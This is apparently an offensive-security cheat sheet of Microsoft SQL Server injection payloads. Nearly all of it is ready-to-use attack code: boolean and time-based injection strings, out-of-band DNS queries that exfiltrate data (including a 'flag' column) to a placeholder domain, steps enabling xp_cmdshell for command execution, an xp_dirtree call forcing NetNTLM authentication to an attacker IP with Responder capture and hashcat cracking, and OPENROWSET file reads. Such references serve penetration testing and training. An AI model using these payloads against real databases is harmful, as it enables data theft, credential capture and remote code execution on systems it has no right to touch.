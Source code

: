 ## Boolean-based

```sql
' AND 1=1;--
```

## Time-based

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10';--
```

## DNS OOB

| SQL Function | SQL Query |
| ----- | ----- |
| `master..xp_dirtree` | `DECLARE @T varchar(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_dirtree "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `master..xp_fileexist` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_fileexist "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `master..xp_subdirs` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_subdirs "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `sys.dm_os_file_exists` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM sys.dm_os_file_exists('\\'+@T+'.YOUR.DOMAIN\x');` |
| `fn_trace_gettable` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_trace_gettable('\\'+@T+'.YOUR.DOMAIN\x.trc',DEFAULT);` |
| `fn_get_audit_file` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_get_audit_file('\\'+@T+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);` |
| `split result into sub-domains` | `DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_get_audit_file('\\'+@A+'.'+@B+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);` |

## [MSSQL] RCE

```sql
-- Check if we are sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');

-- Enable 'Advanced Options'
EXEC sp_configure 'Show Advanced Options', '1';
RECONFIGURE;

-- Enable 'xp_cmdshell'
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;

-- Ping ourselves
EXEC xp_cmdshell 'ping /n 4 192.168.43.164';
```

## [MSSQL] NetNTLM

```shell-session
[!bash!]$ sudo python3 Responder.py -I eth0
```

```sql
EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;
```

```shell-session
[!bash!]$ hashcat -m 5600 'jason::SQL01:bd7f162c24a39a0f:94DF80C5ABB...SNIP...000000' /usr/share/wordlists/rockyou.txt
```

## [MSSQL] File Read

```sql
-- Check if we have the permissions needed to read files
SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS';

-- Get the length of a file
SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

-- Get the contents of a file
SELECT BulkColumn FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x
```